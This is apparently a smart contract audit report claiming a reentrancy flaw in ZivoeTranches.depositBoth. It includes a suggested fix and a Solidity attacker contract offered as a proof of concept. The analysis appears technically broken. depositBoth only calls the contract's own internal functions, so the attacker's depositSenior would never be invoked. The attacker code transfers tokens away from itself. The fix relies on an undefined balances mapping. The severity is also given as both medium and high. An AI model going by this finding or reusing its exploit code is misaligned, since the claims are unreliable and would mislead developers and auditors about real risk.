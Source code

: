 Stale Ginger Raccoon

medium

# H-1 Reentrancy Vulnerability in ZivoeTranches.depositBoth(uint256,address,uint256,address) (src/ZivoeTranches.sol#322-325)

## Summary
The ZivoeTranches contract is susceptible to a reentrancy attack due to the lack of proper reentrancy guard mechanisms in the depositBoth function. Additionally, the function does not follow the Checks-Effects-Interactions (CEI) pattern, which is crucial for preventing reentrancy attacks and ensuring the integrity of the contract's state.
https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeTranches.sol?plain=1#L322#L323#L324
Label:(src/ZivoeTranches.sol)
LoC #322-325
Severity:high
## Vulnerability Detail
The `depositBoth` function in the ZivoeTranches contract is vulnerable to reentrancy attacks because it makes external calls to `depositSenior` and `depositJunior` without implementing proper CEI checks. This vulnerability allows an attacker to repeatedly call the function before the state is updated, potentially draining funds from the contract. Furthermore, the function does not follow the CEI pattern, which involves performing all checks (validations) before making any state changes or external calls. This lack of pattern can lead to unexpected behaviour and potential loss of funds.
## Impact
If exploited, this vulnerability could allow an attacker to drain funds from the ZivoeTranches contract by repeatedly calling the `depositBoth` function before the contract's state is updated. This could have significant financial implications for the contract and its users, potentially leading to loss of trust and operational disruption.
## Code Snippet
```solidity
function depositBoth(uint256 amountSenior, address assetSenior, uint256 amountJunior, address assetJunior) external {
        depositSenior(amountSenior, assetSenior);
        depositJunior(amountJunior, assetJunior);
    }


```
## Tool used

Manual Review

## Recommendation
To mitigate this vulnerability, the ZivoeTranches contract should follow the CEI pattern by performing all checks and state updates before making external calls. This ensures that the contract's state is consistent and prevents reentrancy attacks.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract ZivoeTranches is ReentrancyGuard {
    // rest of the code here

    function depositBoth(uint256 amountSenior, address assetSenior, uint256 amountJunior, address assetJunior) external nonReentrant {
        // Input Validation
        require(amountSenior > 0 && amountJunior > 0, "Deposit amounts must be greater than 0");
        require(assetSenior != address(0) && assetJunior != address(0), "Asset addresses must be valid");

        // Effects
        balances[msg.sender] += amountSenior + amountJunior;

        // Interactions
        depositSenior(amountSenior, assetSenior);
        depositJunior(amountJunior, assetJunior);
    }
}


```
Use the SafeERC20 library for safe token transfers to prevent unexpected behaviour and ensure the integrity of the contract's state.
By addressing these issues, the ZivoeTranches contract can significantly enhance its security, protecting it from reentrancy attacks and ensuring the integrity of its state.

**Proof of Concept**
We'll simulate an attack scenario where an attacker contract exploits the vulnerability. This POC will demonstrate how an attacker could drain funds from the ZivoeTranches contract by repeatedly calling the `depositBoth` function before the contract's state is updated.
Attacker Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";

contract Attacker {
    using SafeERC20 for IERC20;

    ZivoeTranches public zivoeTranches;
    IERC20 public token;

    constructor(address _zivoeTranches, address _token) {
        zivoeTranches = ZivoeTranches(_zivoeTranches);
        token = IERC20(_token);
    }

    // Fallback function to receive Ether
    receive() external payable {}

    function attack(uint256 amount) external {
        // Approve the ZivoeTranches contract to spend the attacker's tokens
        token.safeApprove(address(zivoeTranches), amount);

        // Call the vulnerable depositBoth function
        zivoeTranches.depositBoth(amount, address(token), amount, address(token));
    }

    // This function is called by the ZivoeTranches contract during the deposit process
    function depositSenior(uint256 amount, address asset) external {
        // Attempt to withdraw the tokens again
        token.safeTransfer(msg.sender, amount);
    }
}

```

The attacker contract is initialized with the address of the ZivoeTranches contract and the address of the token to be drained.
The attack function is called by the attacker. It approves the ZivoeTranches contract to spend a specified amount of tokens on behalf of the attacker. Then, it calls the `depositBoth` function of the ZivoeTranches contract, attempting to exploit the reentrancy vulnerability.
**Reentrancy Exploit**: When the `depositBoth` function calls `depositSenior`, the Attacker contract's `depositSenior` function is triggered. Since the `depositBoth` function has not yet updated its state (effects), the attacker can call `depositSenior` again before the first call is finished, draining more tokens than intended.
The attacker contract includes a fallback function to receive Ether, which could be used to fund the attack.
To help mitigate this vulnerability, the ZivoeTranches contract could follow the CEI pattern by performing all checks and state updates before making external calls.
We've provided the POC to demonstrate the potential impact of a reentrancy vulnerability and highlights the importance of implementing proper security measures in smart contracts.